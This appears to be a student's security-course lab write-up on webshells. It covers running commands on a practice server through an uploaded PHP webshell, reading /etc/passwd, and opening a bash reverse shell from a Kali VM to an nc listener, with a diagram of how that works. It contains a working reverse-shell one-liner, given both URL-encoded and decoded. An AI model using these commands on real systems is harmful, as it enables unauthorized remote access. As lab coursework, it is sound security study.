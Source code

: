 Author: Mauricio I. Reyes Villanueva \
Due: October 30, 2024

## Part I:
a. In order to execute to execute this code you would simply go to the url of the site and modify it as follows: "http://danger.jeffondich.com/uploadedimages/reyesm-webshell.php?command=CMD"

**Explain how you can execute the Linux command whoami on the server using your webshell. What result do you get when you execute that command?**
Where "CMD" is a relevant command such as "ls" or in this case "whoami"

**b. What is this webshell's \<pre\> tag for? (And more to the point, what happens if you leave it out?)** \
The pretag is short for preformatted text, and aims to preserve whitespace, line breaks, and so on. It's usually used whenever code snippets are put into an html document. If the pretags are taken out, the code will still function as normal because PHP is parsed in a manner such that it does not depend on a certain manner of whitespace, or line breaks. It can be collapsed down to a singular line and still function properly, but as a result the output that it generates will be displayed as html with no pretag which will result in the output being unformattted and lack line breaks since html requires line breaks to be done through html tags or codes.

## Part II:
a. What directory is danger's website located in? \
The working directory is as follows: /var/www/danger.jeffondich.com/uploadedimages

**b. What are the names of all the user accounts on danger.jeffondich.com? How do you know?** \
The names of all the user accounts
- bullwinkle
- jeff
they can be found via the command: ls /home

**c. Do you have access to the file /etc/passwd? What's in it?** \
No you do not have access to /etc/passwd. That said, we can view what's inside it, which begins as follows:

root:x:0:0:root:/root:/bin/bash \
daemon...

That said, there is far more to the file. To view the file you can run the cmd: cat /etc/*passwd

Which simply says cat any file that ends with passwd

For some reason this file is not displayable if you try "cat /etc/passwd" though since that seems to be "protected"?

**d. Do you have access to the file /etc/shadow? What's in it? (You'll have to look onliine for the answer to that second question, since the answer to the first is no.)** \
No you do not have access to /etc/shadow. Additionally, unlike /etc/passwd which has read permissions for a non root user, shadow does not, so you would need to sudo in order to view the contents of the shadow file.

e. There may be some secret files scattered around. See how many you can find and report on your discoveries. \
There are several files scattered all throughout which can be recursively viewed with the following command ```ls -laR``` in directories such as ```~``` and ```/etc```

Using this we can find the following file

/var/www/danger.jeffondich.com/secrets/kindasecret.txt

and we can cat it. To display the following:

    Congratulations!
            _   _
           (.)_(.)
        _ (   _   ) _
       / \/`-----'\/ \
     __\ ( (     ) ) /__
     )   /\ \._./ /\   (
      )_/ /|\   /|\ \_(

by Joan Stark, https://www.asciiart.eu/animals/frogs

## Part IV:

**a. What is the IP address of your Kali VM (the target machine)? How did you find out?** \
The ipaddress of the kali virtual machine is 192.168.64.2 which I found out by using "ip a".

**b. What are the IP addresses of your host OS (the attacking machine)? How did you find out? Which one should you use to communicate with Kali and why?** \
The ipaddresses of my host (attacking) machine include 10.133.16.98 for en0 and 192.168.64.1 for bridge100, which is the one I should use to communicate with Kali because it is the one directly connected to my host machine on the same network.

**c. On your host OS (the attacker), pick any port number between 5000 and 10000 and run nc -l -p YOUR_CHOSEN_PORT** \
I ran the following: 
```
nc -l 8000
```

**d.In a browser on your host machine, use your web shell to go to this crazy URL.** \
I ran the following: 
```
http://192.168.64.2/webshell.php?command=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.64.1/8000%200%3E%261%22
```

**e. Go back and look at your nc -l -p terminal on your host OS (attacking machine). Do you have a shell now? Is it letting you execute commands on Kali? How do you know it's Kali?** \

Yes I do have a shell now, and it allows me to execute commands. I can tell its kali, based on the files I can view via ```ls``` but more importantly via the ipaddress that shows up when running ```ifconfig``` which resolves to kali's ipaddress.

**f. What are all those % codes in the URL you used?** \
Those codes are special character alternatives that are used for the url, because certain characters are reserved for url parsing, so they need to be encoded for a proper transmission and interpretation. In this case the decoded version of this url is as follows:
```
http://192.168.64.2/webshell.php?command=bash -c "bash -i >& /dev/tcp/192.168.64.1/8000 0>&1"
```

**g. Write a brief description, probably including a diagram, explaining how this reverse shell is functioning.** \

```
         ┌─┐                                                                                                      ┌─┐     
         ║"│                                                                                                      ║"│     
         └┬┘                                                                                                      └┬┘     
         ┌┼┐                                                                                                      ┌┼┐     
          │                                                             ┌──────┐                                   │      
         ┌┴┐                                                            │Server│                                  ┌┴┐     
      Attacker                                                          └───┬──┘                                Target    
          │                                                                 │  "Opens up a server to the world"    │      
          │                                                                 │<─────────────────────────────────────│      
          │                                                                 │                                      │      
          │     "Writes and uploads a php script that allows the            │                                      │      
          │      attacker to run their own php commands on the server"      │                                      │      
          │────────────────────────────────────────────────────────────────>│                                      │      
          │                                                                 │                                      │      
          │────┐                                                            │                                      │      
          │    │ "Opens up a listening port to accept incoming connections" │                                      │      
          │<───┘                                                            │                                      │      
          │                                                                 │                                      │      
          │     "Executes: http://192.168.64.2/webshell.php?command=        │                                      │      
          │      bash -c "bash -i >& /dev/tcp/192.168.64.1/8000 0>&1"       │                                      │      
          │────────────────────────────────────────────────────────────────>│                                      │      
          │                                                                 │                                      │      
          │                                                                 │"Executes the command on the server   │      
          │                                                                 │ hosts machine (i.e. target machine)" │      
          │                                                                 │─────────────────────────────────────>│      
          │                                                                 │                                      │      
          │                                                                 │ ╔════════════════════════════════════╧═════╗
          │                                                                 │ ║"This command in specific runs the       ░║
          │                                                                 │ ║ following bash cmd 'bash -i >&           ║
          │                                                                 │ ║ /dev/tcp/192.168.64.1/8000 0>&1'         ║
          │                                                                 │ ║ which then establishes a reverse shell   ║
          │                                                                 │ ║ connection back to the attacker's        ║
          │                                                                 │ ║ machine, allowing the attacker to exec   ║
          │                                                                 │ ║ commands via their nc instance"          ║
          │                                                                 │ ╚════════════════════════════════════╤═════╝
          │                                        "Connection is created"  │                                      │      
          │<───────────────────────────────────────────────────────────────────────────────────────────────────────│      
          │                                                                 │                                      │      
          │                               "Various types of attacks possibly occur"                                │      
          │───────────────────────────────────────────────────────────────────────────────────────────────────────>│      
      Attacker                                                          ┌───┴──┐                                Target    
         ┌─┐                                                            │Server│                                  ┌─┐     
         ║"│                                                            └──────┘                                  ║"│     
         └┬┘                                                                                                      └┬┘     
         ┌┼┐                                                                                                      ┌┼┐     
          │                                                                                                        │      
         ┌┴┐                                                                                                      ┌┴┐     
```
